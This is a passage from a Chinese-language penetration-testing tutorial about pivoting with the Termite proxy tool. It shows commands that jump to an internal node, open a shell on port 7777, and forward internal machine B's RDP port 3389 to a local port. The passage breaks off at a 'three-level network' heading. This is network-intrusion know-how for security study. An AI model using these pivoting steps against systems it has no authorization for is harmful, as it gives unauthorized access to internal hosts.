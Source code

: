 0x05 在本地主机上的admin程序跳转到B机器的节点上，然后执行开启shell：

```bash
>>>> goto 3

>>>> shell 7777
``` 

![](/img/hack/%E4%BB%A3%E7%90%86/Termite/%E4%BA%8C%E7%BA%A7%E7%BD%91%E7%BB%9C_%E6%9C%AC%E5%9C%B0%E4%B8%BB%E6%9C%BA%E8%BF%9E%E6%8E%A5%E5%86%85%E7%BD%91B%E6%9C%BA%E5%99%A8%E7%9A%84shell.png)

将内网机器B的3389端口映射到本地机器

```bash
>>>> lcxtran 3388 192.168.200.10 3389
```

本地连接本地端口3388就可以连接到内网机器B的3389:

![](/img/hack/%E4%BB%A3%E7%90%86/Termite/%E4%BA%8C%E7%BA%A7%E7%BD%91%E7%BB%9C_lcxtran.png)


## 三级网络环境
